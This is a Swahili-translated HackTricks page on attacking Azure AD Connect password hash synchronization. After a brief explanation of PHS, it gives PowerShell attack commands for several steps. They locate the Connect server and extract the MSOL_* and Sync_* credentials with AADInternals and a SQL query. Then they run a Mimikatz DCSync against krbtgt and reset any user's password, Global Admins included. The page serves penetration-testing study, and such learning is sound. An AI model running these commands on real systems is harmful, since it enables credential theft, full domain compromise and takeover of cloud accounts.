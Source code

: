 # Az - PHS - Synchronization ya Hash ya Nywila

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Taarifa Msingi

[Kutoka kwa nyaraka:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Synchronization ya hash ya nywila** ni moja ya njia za kuingia zinazotumiwa kufanikisha kitambulisho cha mchanganyiko. **Azure AD Connect** inasawazisha hash, ya hash, ya nywila ya mtumiaji kutoka kwa kifaa cha Active Directory cha ndani hadi kifaa cha Azure AD kwenye wingu.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Ni **njia ya kawaida** inayotumiwa na makampuni kusawazisha AD ya ndani na Azure AD.

Wote **watumiaji** na **hash ya nywila** zinasawazishwa kutoka kwa ndani kwenda Azure AD. Hata hivyo, **nywila za maandishi wazi** au **hash za asili** hazitumwi kwa Azure AD.\
Zaidi ya hayo, **Vikundi vya usalama vilivyojengwa** (kama vile waendeshaji wa kikoa...) havisawazishwi na Azure AD.

Usawazishaji wa **hash** hufanyika kila **dakika 2**. Hata hivyo, kwa chaguo-msingi, **ukomo wa nywila** na **ukomo wa akaunti** hawasawazishwi katika Azure AD. Hivyo, mtumiaji ambaye **nywila yake ya ndani imeisha muda** (haikubadilishwa) anaweza kuendelea **kupata rasilimali za Azure** kwa kutumia nywila ya zamani.

Wakati mtumiaji wa ndani anapotaka kupata rasilimali ya Azure, **uthibitisho hufanyika kwenye Azure AD**.

**PHS** inahitajika kwa vipengele kama **Ulinzi wa Kitambulisho** na Huduma za Domain za AAD.

## Kubadilisha Mwelekeo

Wakati PHS imeboreshwa baadhi ya **akaunti zenye mamlaka** zinaundwa moja kwa moja:

* Akaunti ya **`MSOL_<installationID>`** inaundwa moja kwa moja kwenye AD ya ndani. Akaunti hii inapewa jukumu la **Akaunti za Usawazishaji wa Dhibiti** (angalia [nyaraka](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) ambayo inamaanisha kuwa ina **idhini ya usawazishaji (DCSync) katika AD ya ndani**.
* Akaunti ya **`Sync_<jina la seva ya ADConnect ya ndani>_installationID`** inaundwa kwenye Azure AD. Akaunti hii inaweza **kusawazisha nywila ya MTUMIAJI YEYOTE** (aliyesawazishwa au wingu pekee) kwenye Azure AD.

Nywila za akaunti mbili zenye mamlaka hapo juu zinahifadhiwa kwenye **seva ya SQL** kwenye seva ambapo **Azure AD Connect imeboreshwa.** Waendeshaji wanaweza kutoa nywila za watumiaji hao wenye mamlaka kwa maandishi wazi.\
Hifadhidata iko katika `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Inawezekana kutoa maelezo ya usanidi kutoka kwa moja ya meza, moja ikiwa imefichwa:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Usanidi uliofichwa** umefichwa kwa kutumia **DPAPI** na una nywila za mtumiaji wa **`MSOL_*`** kwenye AD ya ndani na nywila ya **Sync\_\*** kwenye AzureAD. Hivyo, kwa kuhatarisha hizi inawezekana kufikia AD na AzureAD.

Unaweza kupata [muhtasari kamili wa jinsi nywila hizi zinavyohifadhiwa na kufichuliwa katika mazungumzo haya](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Kupata **seva ya Azure AD connect**

Ikiwa **seva ambapo Azure AD connect imeboreshwa** imejiunga na kikoa (inapendekezwa katika nyaraka), inawezekana kuipata kwa:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Kudhuru MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Unaweza pia kutumia [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) kupata sifa hizi.
{% endhint %}

### Kutumia Vibaya Sync\_\*

Kwa kudukua akaunti ya **`Sync_*`** niwezekanavyo **kusahihisha nenosiri** la mtumiaji yeyote (ikiwa ni pamoja na Waadmin wa Kimataifa)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Pia niwezekana kubadilisha **nywila za watumiaji wa buluu** pekee (hata kama hiyo ni ya kushangaza)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Pia niwezekano wa kudump nenosiri la mtumiaji huyu.

{% hint style="danger" %}
Chaguo lingine lingekuwa **kutenga ruhusa za mamlaka kuu kwa mada ya huduma**, ambayo mtumiaji wa **Sync** ana **ruhusa** za kufanya, na kisha **kupata huduma hiyo ya mamlaka kuu** kama njia ya privesc.
{% endhint %}

### Usajili Usio na Vikwazo

Inawezekana kutumia Usajili Usio na Vikwazo na PHS, ambayo inaweza kutumika vibaya kwa njia nyingine. Angalia hapa:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Marejeo

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
